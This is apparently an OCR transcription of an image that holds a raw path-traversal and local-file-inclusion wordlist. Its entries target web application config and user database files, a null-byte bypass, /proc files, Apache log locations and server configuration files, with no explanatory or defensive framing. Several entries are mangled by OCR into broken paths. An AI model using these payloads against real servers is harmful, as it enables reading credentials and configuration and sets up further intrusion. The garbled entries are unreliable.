         dbase.php a
        admin/access_log
        ../users.db.php
        users.db.php
        /core/config.php
        config.php
        config.js
        ../config.js
        config.asp
        ../config.asp
        _config.php
        ../_config.php
        ../_config.php%00
        ../config.php
        config.inc.php
        ../config.inc.php
        /config.asp
        ../config.asp
        /../../../../pswd
        /admin/install.php
        ../install.php
        install.php
        /boot/grub/grub.conf
        /proc/interrupts
        /proc/cpuinfo
        /proc/meminfo
        ../apache/logs/error.log
        ../apache/logs/access.log
        ../../apache/logs/error.log
        ../../apache/logs/access.log
        ../../../apache/logs/error.log
        ../../../apache/logs/access.log
        ../../../../../../../etc/httpd/logs/acces_log
        ../../../../../../../etc/httpd/logs/acces.log
        ../../../../../../../etc/httpd/logs/error_log
        ../../../../../../../etc/httpd/logs/error.log
        ../../../../../../../var/www/logs/access_log
        ../../../../../../../var/www/logs/access.log
        ../../../../../../../usr/local/apache/logs/access_ log
        ../../../../../../../usr/local/apache/logs/access. log
        ../../../../../../../var/log/apache/access_log
        ../../../../../../../var/log/apache2/access_log
        ../../../../../../../var/log/apache/access.log
        ../../../../../../../var/log/apache2/access.log
        ../../../../../../../var/log/access_log
        ../../../../../../../var/log/access.log
        ../../../../../../../var/www/logs/error_log
        ../../../../../../../var/www/logs/error.log
        ../../../../../../../usr/local/apache/logs/error_l og
        ../../../../../../../usr/local/apache/logs/error.l og
        ../../../../../../../var/log/apache/error_log
        ../../../../../../../var/log/apache2/error_log
        ../../../../../../../var/log/apache/error.log
        ../../../../../../../var/log/apache2/error.log
        ../../../../../../../var/log/error_log
        ../../../../../../../var/log/error.log
        /etc/init.d/apache
        /etc/init.d/apache2
        /etc/httpd/httpd.conf
        /etc/apache/apache.conf
        /etc/apache/httpd.conf
        /etc/apache2/apache2.conf
        /etc/apache2/httpd.conf
        /usr/local/apache2/conf/httpd.conf